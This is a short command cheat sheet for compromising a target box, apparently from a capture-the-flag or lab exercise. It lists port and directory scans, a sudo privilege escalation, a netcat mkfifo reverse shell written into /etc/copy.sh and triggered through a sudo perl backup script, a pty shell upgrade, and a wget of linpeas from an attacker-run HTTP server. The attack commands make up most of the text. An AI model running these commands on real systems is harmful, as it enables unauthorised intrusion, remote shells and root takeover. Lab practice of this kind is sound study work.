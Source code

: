 # nmap scan
sudo nmap -sC -sV -v -oN nmap.md TARGET_IP 


# Gobuster Scan
sudo gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -u http://TARGET_IP/ -x php,py,js,css,html,txt

# dirbuster scan
sudo dirb http://TARGET_IP/ -R 


# Cat all find read
cat *



# To Check Sudo Permissions
sudo -l


# prev esc linux bash shell
sudo bash


# perl write to copy.sh [reverse shell]
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc LOCAL_IP 5554 >/tmp/f' >/etc/copy.sh

sudo /usr/bin/perl /home/itguy/backup.pl



# python shell - stable bash shell

python3 -c  'import pty;pty.spawn("/bin/bash")'



# run python http server

sudo python -m SimpleHTTPServer 80

sudo wget http://LOCAL_IP/linpeas.sh -OutFile /tmp/linpeas.sh
